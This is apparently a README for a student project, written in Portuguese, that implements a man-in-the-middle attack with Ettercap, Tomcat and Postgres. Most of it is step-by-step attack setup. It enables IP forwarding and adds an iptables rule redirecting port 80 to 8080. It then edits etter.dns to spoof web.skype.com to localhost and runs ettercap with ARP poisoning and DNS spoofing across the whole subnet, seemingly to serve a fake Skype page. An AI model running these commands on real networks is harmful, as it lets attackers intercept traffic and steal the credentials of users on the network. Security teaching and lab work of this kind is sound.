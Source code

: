 # sgd-projectMITM - Implementação de um Man in the Middle
### Equipe ###
Flávio Henrique e Lucas Duete

### Requisitos ###
* Java
* Maven
* Postgres
* Ettercap
* TomCat

### Implantação do Ettercap ###

Abra o primeiro terminal. Agora vamos ativar o redirecionamento de pacotes. <br/>
`# echo 1 > /proc/sys/net/ipv4/ip_forward` <br/>
<br/>
Agora vamos efetuar todo o redirecionamento de pacotes que chegar na porta 80 da nossa máquina para a porta 8080. <br/>
`iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080` <br/>
<br/>
<b>Agoro iremos configurar o DNS Spoofing.</b><br/>
Primeiramente edite o arquivos etter.dns do ettercap.<br/>
`# pico /etc/ettercap/etter.dns`<br/>
https://web.skype.com/	A	localhost<br/>
web.skype.com		A	localhost<br/>
Depois executar o seguinte comando para iniciar o Ettercap:<br/>
`ettercap -T -q -M arp -i eth0 -P dns_spoof ///`<br/>

